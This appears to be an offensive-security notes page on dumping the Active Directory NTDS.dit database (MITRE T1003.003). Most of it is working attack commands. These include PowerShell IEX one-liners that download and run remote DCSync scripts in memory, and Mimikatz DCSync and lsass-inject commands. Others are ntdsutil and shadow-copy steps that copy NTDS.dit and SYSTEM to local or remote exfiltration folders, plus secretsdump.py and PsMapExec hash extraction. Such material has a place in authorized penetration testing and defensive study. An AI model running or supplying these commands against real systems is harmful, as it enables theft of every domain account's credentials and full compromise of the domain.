 

# Description:

https://attack.mitre.org/techniques/T1003/003/

# NTDS

**ATT\&CK ID:** [T1003.003](https://attack.mitre.org/techniques/T1003/003/)

**Permissions Required:** <mark style="color:red;">**Administrator**</mark> | <mark style="color:red;">**SYSTEM**</mark>

**Description**

Adversaries may attempt to access or create a copy of the Active Directory domain database in order to steal credential information, as well as obtain other information about domain members such as devices, users, and access rights. By default, the NTDS file (NTDS.dit) is located in `%SystemRoot%\NTDS\Ntds.dit` of a domain controller.

In addition to looking for NTDS files on active Domain Controllers, adversaries may search for backups that contain the same or similar information.

## Techniques

### Invoke-DCsync (PentestFactory)

**URL:** [https://github.com/pentestfactory/Invoke-DCSync](https://github.com/pentestfactory/Invoke-DCSync)

Invoke-DCsync pulls Mimikatz,PowerView and ADRecon from Github into memory and then performs DCSync.

```powershell
# Load into memory
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/pentestfactory/Invoke-DCSync/main/Invoke-DCSync.ps1")

# Execute
Invoke-DCSync
```

![](../../../Assets/Pasted%20image%2020250619221044.png)

### Invoke-DCSync (S3cur3Th1sSh1t)

```powershell
# Load into memory
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-DCSync.ps1")

# Execute
Invoke-DCSync -dcfqdn DC01.security.local -username administrator
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Metasploit

```bash
use auxiliary/admin/smb/psexec_ntdsgrab
```

![](../../../Assets/Pasted%20image%2020250619221058.png)

`secretsdump.py` can then be used to pull hashes from the `ntds.dit` database using the SYSTEM hive file (ref: secretsdump.py further down).

### Mimikatz

```powershell
# Dump hashes for a specified users
Invoke-Mimikatz -command '"lsadump::dcsync /domain:security.local /user:moe"'

# Dump hashes for all users
Invoke-Mimikatz -command '"lsadump::dcsync /domain:security.local /all"'

# Dump hashes by injecting into the lsass process on the Domain Controller
Invoke-Mimikatz -command '"lsadump::lsa /inject"'
```

![](../../../Assets/Pasted%20image%2020250619221105.png)

### ntdsutil.exe (Native)

With access to the Domain Controller its possible to run the `ntdsutil.exe` native binary to dump SAM, SYSTEM and ntds.dit ready for exfiltration.

```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\Exfiltration' q q"

# Dump to remote share
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full \\10.10.10.10\Share\Exf' q q"
```

![](../../../Assets/Pasted%20image%2020250619221114.png)

Viewing the contents of `c:\Exfiltration` we see the files.

![](../../../Assets/Pasted%20image%2020250619221127.png)

Secretsdump we can be used against these files for extraction as shown in the `secretsdump.py` section below.

### Secretsdump.py

```bash
# With valid credentials
secretsdump.py security.local/moe:Password123@10.10.10.100 -just-dc-ntlm
```

![](../../../Assets/Pasted%20image%2020250619221138.png)

```bash
# Dump from exfiltrated ntds.dit and SYSTEM files.
sudo secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

![](../../../Assets/Pasted%20image%2020250619221148.png)

```bash
# Dump results from ntdsutil.exe method
secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit LOCAL
```

### PsMapExec

```powershell
# As current user
PsMapExec -Targets DCs -Method SMB -Module NTDS

# As a specified user
PsMapExec -Targets DCs -Method SMB -Module NTDS -Username Administrator -Password Password123!
```

![](../../../Assets/Pasted%20image%2020250619221200.png)

### Volume Shadow Copy

```bash
# Create VSS snapshot of system drive
vssadmin create shadow /for=C:

# create a copy of NTDS.dit and SYSTEM then move to C:\Exfiltration
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit C:\Exfiltration
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\System32\config\SYSTEM C:\Exfiltration
```

![](../../../Assets/Pasted%20image%2020250619221207.png)

The NTDS.dit and SYSTEM files can be exfiltrated off the system and used with a tool such as `secretsdump.py` for hash extraction.
